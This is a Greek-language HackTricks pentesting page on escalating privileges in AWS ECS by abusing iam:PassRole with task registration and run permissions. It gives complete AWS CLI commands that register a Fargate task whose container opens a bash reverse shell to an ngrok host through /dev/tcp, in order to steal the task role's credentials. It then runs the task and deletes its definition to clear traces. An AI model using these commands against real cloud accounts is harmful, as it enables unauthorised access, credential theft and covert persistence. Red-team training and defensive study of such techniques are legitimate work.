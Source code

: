 # AWS - ECS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## ECS

Περισσότερες **πληροφορίες σχετικά με το ECS** στο:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

Ένας επιτιθέμενος που εκμεταλλεύεται την άδεια `iam:PassRole`, `ecs:RegisterTaskDefinition` και `ecs:RunTask` στο ECS μπορεί να **δημιουργήσει έναν νέο ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει**.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε διαφορετικό ρόλο ECS.
